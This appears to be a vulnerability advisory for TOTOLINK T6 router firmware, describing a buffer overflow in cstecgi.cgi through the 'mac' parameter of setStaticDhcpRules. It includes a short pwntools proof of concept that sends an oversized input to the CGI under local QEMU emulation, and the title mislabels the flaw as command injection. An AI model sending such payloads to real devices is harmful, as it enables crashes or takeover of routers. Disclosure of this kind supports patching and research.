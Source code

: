 # Command Injection

## TOTOLINK_T6

version: V4.1.5cu.709_B20210518

## Description:

There is a buf overflow  in cstecgi.cgi

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Analyse:



in sub_421504, v6 get from mac

![](1.png)


and then concat v21 and v9 , v9 get from v6 , cause overflow
![](2.png)

## POC

```
from pwn import *
import json

data = {
    "topicurl": "setting/setStaticDhcpRules",
    "addEffect": "1",
    "mac": b'a'*0x200 + b':'
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.0.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```
